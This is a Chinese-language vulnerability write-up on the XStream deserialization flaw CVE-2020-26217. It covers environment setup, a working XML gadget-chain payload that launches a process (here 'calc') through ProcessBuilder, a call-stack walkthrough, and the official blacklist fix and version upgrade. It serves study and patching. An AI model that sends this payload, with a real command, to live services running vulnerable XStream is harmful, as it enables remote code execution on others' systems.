

# 相关漏洞

## RCE

### CVE-2020-26217

####  漏洞描述

- RCE

- 影响范围

```
<=1.4.13
```


####  漏洞复现

##### 环境搭建

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
<dependency>
  <groupId>com.thoughtworks.xstream</groupId>
  <artifactId>xstream</artifactId>
  <version>1.4.13</version>
</dependency>
```

PayloadRunner.java

```java
import com.thoughtworks.xstream.XStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class PayloadRunner {
    public static void main(String[] args) throws FileNotFoundException {
        String basePath = "F:\\Java_Sec\\java\\java_vuln\\src\\main\\java\\Deserialization\\XStream\\payloads\\";
        XStream xstream = new XStream();
        FileInputStream evilXml = new FileInputStream(basePath + "CVE-2020-26217-RCE.xml");
        xstream.fromXML(evilXml);
    }
}
```

##### 漏洞验证

CVE-2020-26217-RCE.xml

- https://x-stream.github.io/CVE-2020-26217.html

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

测试效果


#### 漏洞分析

调用栈

```java
start:94, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
filter:613, ImageIO$ContainsFilter (javax.imageio)
advance:821, FilterIterator (javax.imageio.spi)
next:839, FilterIterator (javax.imageio.spi)
nextElement:153, MultiUIDefaults$MultiUIDefaultsEnumerator (javax.swing)
nextStream:110, SequenceInputStream (java.io)
read:211, SequenceInputStream (java.io)
readFrom:65, ByteArrayOutputStreamEx (com.sun.xml.internal.bind.v2.util)
get:182, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
toString:286, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
getStringValue:121, NativeString (jdk.nashorn.internal.objects)
hashCode:117, NativeString (jdk.nashorn.internal.objects)
hash:338, HashMap (java.util)
put:611, HashMap (java.util)
putCurrentEntryIntoMap:107, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:98, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:92, MapConverter (com.thoughtworks.xstream.converters.collections)
unmarshal:87, MapConverter (com.thoughtworks.xstream.converters.collections)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:72, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1404, XStream (com.thoughtworks.xstream)
unmarshal:1383, XStream (com.thoughtworks.xstream)
fromXML:1277, XStream (com.thoughtworks.xstream)
main:13, PayloadRunner (Deserialization.XStream)
```

根据调用栈可定位到漏洞触发点

`com.thoughtworks.xstream.converters.collections.MapConverter#unmarshal`

```java
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    Map map = (Map)this.createCollection(context.getRequiredType());
    this.populateMap(reader, context, map);
    return map;
}
```

跟进到

`com.thoughtworks.xstream.converters.collections.MapConverter#putCurrentEntryIntoMap`

```java
// 将对应的key和value放到HashMap,触发HashMap的put()方法
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
    Object key = this.readCompleteItem(reader, context, map);
    Object value = this.readCompleteItem(reader, context, map);
    target.put(key, value);
}
```

当前运行时的key为：

- `jdk.nashorn.internal.objects.NativeStrin`

  

获取hashcode时调用的方法为：`jdk.nashorn.internal.objects.NativeString#hashCode`

```java
public int hashCode() {
    return this.getStringValue().hashCode();
}
```

跟进getStringValue()方法，调用this.value的toString()方法

```java
private String getStringValue() {
    return this.value instanceof String ? (String)this.value : this.value.toString();
}
```

当前运行时value为:

- `com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data`

  

所以调用的toString()方法为：

- `com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString`

```java
public String toString() {
    this.get();
    return DatatypeConverterImpl._printBase64Binary(this.data, 0, this.dataLen);
}
```

跟进this.get()方法，调用baos.readFrom()方法读取this.dataHandler的DataSource中的InputStream

- `com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#get`

```java
public byte[] get() {
    if (this.data == null) {
        try {
            ByteArrayOutputStreamEx baos = new ByteArrayOutputStreamEx(1024);
            InputStream is = this.dataHandler.getDataSource().getInputStream();
            baos.readFrom(is);
            is.close();
            this.data = baos.getBuffer();
            this.dataLen = baos.size();
        } catch (IOException var3) {
            this.dataLen = 0;
        }
    }
    return this.data;
}
```

跟进baos.readFrom()方法，发现调用了is.read()方法

```java
public void readFrom(InputStream is) throws IOException {
    while(true) {
        if (this.count == this.buf.length) {
            byte[] data = new byte[this.buf.length * 2];
            System.arraycopy(this.buf, 0, data, 0, this.buf.length);
            this.buf = data;
        }
        int sz = is.read(this.buf, this.count, this.buf.length - this.count);
        if (sz < 0) {
            return;
        }
        this.count += sz;
    }
}
```

跟进

- `java.io.SequenceInputStream#read(byte[], int, int)`

```java
public int read(byte b[], int off, int len) throws IOException {
    if (in == null) {
        return -1;
    } else if (b == null) {
        throw new NullPointerException();
    } else if (off < 0 || len < 0 || len > b.length - off) {
        throw new IndexOutOfBoundsException();
    } else if (len == 0) {
        return 0;
    }
    do {
        int n = in.read(b, off, len);
        if (n > 0) {
            return n;
        }
        nextStream();
    } while (in != null);
    return -1;
}
```

调用nextStream()方法来遍历InputStream中的元素

- java.io.SequenceInputStream#nextStream

```java
final void nextStream() throws IOException {
    if (in != null) {
        in.close();
    }
    if (e.hasMoreElements()) {
        in = (InputStream) e.nextElement();
        if (in == null)
            throw new NullPointerException();
    }
    else in = null;
}
```

调用e.nextElement()方法

- `javax.swing.MultiUIDefaults.MultiUIDefaultsEnumerator#nextElement`

```java
public Object nextElement() {
    switch (type) {
        case KEYS: return iterator.next().getKey();
        case ELEMENTS: return iterator.next().getValue();
        default: return null;
    }
}
```

调用iterator.next()方法

- `javax.imageio.spi.FilterIterator#next`

```java
public T next() {
    if (next == null) {
        throw new NoSuchElementException();
    }
    T o = next;
    advance();
    return o;
}
```

调用advance()方法

- `javax.imageio.spi.FilterIterator#advance`

```java
private void advance() {
    while (iter.hasNext()) {
        T elt = iter.next();
        if (filter.filter(elt)) {
            next = elt;
            return;
        }
    }
    next = null;
}
```

调用了filter属性的filter()方法

- `javax.imageio.ImageIO.ContainsFilter#filter`

```java
public boolean filter(Object elt) {
    try {
        return contains((String[])method.invoke(elt), name);
    } catch (Exception e) {
        return false;
    }
}
```

通过反射调用ProcessBuilder的start方法，达到命令执行的效果。



#### 漏洞修复

官方给出的修复方法，黑名单限制

```java
xstream.denyTypes(new String[]{ "javax.imageio.ImageIO$ContainsFilter" });
xstream.denyTypes(new Class[]{ java.lang.ProcessBuilder.class });
```

切换xstream版本为修复版本：v1.4.14

```xml
<!-- https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream -->
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.14</version>
</dependency>
```

再次验证，复现失败


抛出了异常：`ForbiddenClassException`，根据其报错的堆栈信息定位到

- `com.thoughtworks.xstream.mapper.SecurityMapper#realClass`
  - 匹配到黑名单类，则抛出异常

```java
public Class realClass(String elementName) {
    Class type = super.realClass(elementName);
    for(int i = 0; i < this.permissions.size(); ++i) {
        TypePermission permission = (TypePermission)this.permissions.get(i);
        if (permission.allows(type)) {
            return type;
        }
    }
    throw new ForbiddenClassException(type);
}
```

下断点，获取到禁用的黑名单如下：


